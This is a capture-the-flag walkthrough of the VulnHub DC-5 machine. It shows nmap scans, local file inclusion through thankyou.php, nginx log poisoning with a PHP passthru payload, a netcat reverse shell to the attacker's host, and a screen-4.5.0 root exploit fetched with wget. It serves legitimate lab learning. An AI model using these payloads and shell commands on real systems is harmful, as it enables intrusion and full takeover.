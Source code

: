 # DC: 5
[VulnHub link](https://www.vulnhub.com/entry/dc-5,314/)  
By DCAU

## Enumeration ##
* As with the first 4 iterations of the DC-series, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-5/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-5/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.12`.
* The host is running 2 services, HTTP at port 80 and rpcbind at port 111. Both ports are found to be open.
* Run `nmap -p- -A 10.0.2.12`:
![](/screenshots/dc-5/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an nginx web server running on port 80 (which is open), as with the previous iteration of the dc series.

## Exploring Nginx Service on Port 80 ##
* Opening `http://10.0.2.12` reveals a site with paragraphs of random sample texts greeting us:
![](/screenshots/dc-5/siteWebServer.jpg)
* At this point in time, I could not be more stuck. I tried using Burp Suite on the Contact form as was done in the previous walkthrough for DC-4, but to no avail.
* A hint that I got was that when I repeatedly submitted the Contact form, the copyright year at the bottom may differ:
![](/screenshots/dc-5/copyrightYears.jpg)
* It was either 2017, 2018, 2019 or 2020. Interesting. The copyright year on any of the other pages would be 2019.
* Even when I was repeatedly refreshing `http://10.0.2.12/thankyou.php` which had no parameters, the year was still changing. A contact form that is submitted would result in the URL being `http://10.0.2.12/thankyou.php?firstname=&lastname=&country=australia&subject=`.
* On hindsight, the only indication that I got from looking at the page source, is that the closing HTML tag for footer was rather out of place:
![](/screenshots/dc-5/contactFormSubmitPageSource.jpg)
* While I understood that we could modify the data (within the various options) being sent, what I did not know was that we could attempt our own options as well. Such an option would be `file`, where we would want to read the contents of specific files within the web server. It turns out that this vulnerability is called **Local File Inclusion** (LFI).
* Here is a [great explanation](https://roguecod3r.wordpress.com/2014/03/17/lfi-to-shell-exploiting-apache-access-log/) on how we will be exploiting this vulnerability to get our shell, courtesy of roguecod3r (author of post) and byzo (who suggested this article in his walkthrough).

## Exploring LFI ##
* After understanding this, we will now attempt to get the contents of `/etc/passwd`, by entering `http://10.0.2.12/thankyou.php?file=/etc/passwd`:
![](/screenshots/dc-5/etcPasswdFile.jpg)
* Interestingly, if we did not include any file to load in the parameter, the footer contents would disappear, i.e. no Copyright © 2019 would be retrieved.
* Also, `/etc/passwd` seems to be one of the common files used to test for LFI, because I guess virtually everyone would have that file on their web servers. Attempting to load a file that does not exist may lead us to be mistaken that LFI is not present.
* As much as we now know a list of users, we do not have a login page or ssh to attempt our logins.
* It turns out that to get our shell, we would have to exploit it through the *nginx access logs*.
* First, we have to find out where the access logs are located. A common location of the file is `/var/log/nginx/access.log`. Run: `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log`:
![](/screenshots/dc-5/nginxAccessLog.jpg)
* Note: For Apache2 web servers, the location is also likely to be the same, except that it would be found under the `apache2` directory in `/var/log` instead.
* We can now confirm that we are able to retrieve the access logs, which span many, many pages.
* I accessed `http://10.0.2.12/testing-out-that-i-am-able-to-read-the-access-logs`, just to test out what we know about the access logs - that these files record all requests processed by the server:
![](/screenshots/dc-5/nginxAccessLogTest.jpg)
* Note: The latest records are found at the bottom of the log file.
* Next, run `nc 10.0.2.12 80`, then enter `GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1`:
![](/screenshots/dc-5/emptyGETResponse.jpg)
* Note: I did not get back any response from my GET request, as compared to the walkthroughs by others who solved this challenge. They got back a response with status code `400 Bad Request`, where if you were to see the status code of my 'empty' GET request below, it is a `408 Request Timeut` error. Interesting.
* `passthru` allows us to execute an external program and display its raw output.
* Note: The browswer is not used to send this GET request because it will URL-encode the request, making it useless.
* Refresh the page, i.e. visit `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log` and we see that there is an 'empty' GET request, which is really the request made when we executed the PHP code:
![](/screenshots/dc-5/emptyGETRequest.jpg)
* After that, visit `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log&cmd=id` to confirm that we are able to run commands. We should expect to see the output of running `id` in the access logs, exactly at the log entry where our 'empty' GET request was made:
![](/screenshots/dc-5/commandExecutionAccessLogs.jpg)
* Note: Visiting the page with the parameter `cmd=id` immediately after sending the GET request via netcat will result in the output of `id` being displayed as the latest one. I visited a few pages in between for the example above to illustrate my point that the output of the command will only appear exactly where the netcat GET request was made.
![](/screenshots/dc-5/commandExecutionImmediateAccessLogs.jpg)

## Gaining Reverse Shell (from LFI) ##
* Next, we will establish our shell to the web server by running a netcat listener `nc -v -l -p 1234` on our Kali VM terminal, and then visiting `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 10.0.2.15 1234 -c /bin/sh` on our browser:
![](/screenshots/dc-5/ncEstablishShell.jpg)
* Note: Replace `10.0.2.15` with the IP address of your Kali VM, `1234` with a port number of your choice just for the purpose of establishing this connection, and `/bin/sh` with `/bin/bash` if you would like (there is no difference between the 2 here).
* As expected, we are user `www-data` and it is time to find a way to escalate our privileges!
* Before we do so, run `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell.
* Next, run `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we can possibly exploit:
![](/screenshots/dc-5/setuidBinaries.jpg)
* Having executed this `find` command many times over our past challenges, we are more or less able to distinguish if there are any unusual binaries in the output. Here, it is `/bin/screen-4.5.0`.

## Privilege Escalation (to root) ##
* Googling about /bin/screen-4.5.0 led me to find out about the existence of 2 exploits relating to it on Exploit DB - [41152](https://www.exploit-db.com/exploits/41152) and [41154](https://www.exploit-db.com/exploits/41154). I could not quite understand the former, so we will use the latter.
* To upload the exploit script, run `python -m SimpleHTTPServer 4567` on our Kali VM, then navigate to `/tmp` on our netcat shell before running `wget http://10.0.2.15:4567/41154.sh`:
![](/screenshots/dc-5/uploadExploitScript.jpg)
* The status code `200 OK` tells us that the upload is successful.
* Note: According to [Python For Beginners](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/), the SimpleHTTPServer module that comes with Python is a simple HTTP server that provides standard GET and HEAD request handlers. An advantage with the built-in HTTP server is that we do not have to install and configure anything.
* Note: `4567` is also a port number of your choice just for the purpose of establishing this connection.
* Once it has been downloaded to the web server /tmp directory, `chmod +x 41154.sh` to give it executable permissions.
* Running `./41154.sh` results in an error as shown in the boxed-up area:
![](/screenshots/dc-5/failedScreenExploit.jpg)
* Perhaps the exploit script could not be executed in one shot. Let us try to split the original script into its respective files by ourselves, and do the compilation manually.
* First, we will do a quick analysis of the original exploit script:
![](/screenshots/dc-5/exploitCode.jpg)
* In summary, the original exploit script is split into 3 files - 2 .c files and 1 script.
* We will next compile the 2 respective .c files, bearing in mind that the `/tmp` parts of the command (as indicated in the original exploit script) are removed because my version of files are stored in `/root`.
* Compile `libhax.c` using the command `gcc -fPIC -shared -ldl -o libhax.so libhax.c`:
![](/screenshots/dc-5/libhaxCompilation.jpg)
* Compile `rootshell.c` using the command `gcc -o rootshell rootshell.c`:
![](/screenshots/dc-5/rootshellCompilation.jpg)
* We will name our script `screenroot.sh`, although you can name it otherwise. This name is the file name of the original exploit script.
![](/screenshots/dc-5/screenRootScriptModified.jpg)
* Ensure that our SimpleHTTPServer is still running, and upload all 3 files to the vulnerable web server:
1. `wget http://10.0.2.15:4567/libhax.so`
2. `wget http://10.0.2.15:4567/rootshell`
3. `wget http://10.0.2.15:4567/screenroot.sh`
![](/screenshots/dc-5/uploadExploitFiles.jpg)
* `chmod +x screenroot.sh` to give it executable permissions:
![](/screenshots/dc-5/filesInTmpDirectory.jpg)
* For some unknown reason, I am unable to run it on one of my devices. Apparently there is a wrong ELF class, which I am unable to diagnose:
![](/screenshots/dc-5/exploitFinalUnknownFailure.jpg)
* What you should rightfully see when you run `./screenroot.sh`:
![](/screenshots/dc-5/privilegeEscalated.jpg)
* Congratulations, we are now `root`! Head to `/root`, and our flag is found in `thisistheflag.txt`:
![](/screenshots/dc-5/flag.jpg)

# Concluding Remarks
This challenge felt a lot shorter than any other vulnerable machines that we had attempted previously, but at the same time each step required a lot more targeted knowledge that one had to know, else it would be very hard to move forward.

1. Learnt about exploiting Local File Inclusion (LFI).
2. Learnt to deconstruct an exploit script, given that its original copy did not work for our circumstances.
3. Learnt about SimpleHTTPServer in conjunction with wget.

Does not seem like I learnt a lot in terms of quantity, but learning about LFI was a huge plus to me here!

**Note to self: Consider exploring why the Copyright year kept changing upon submission of the contact form.**

# References
1. https://bzyo.github.io/dc-5/
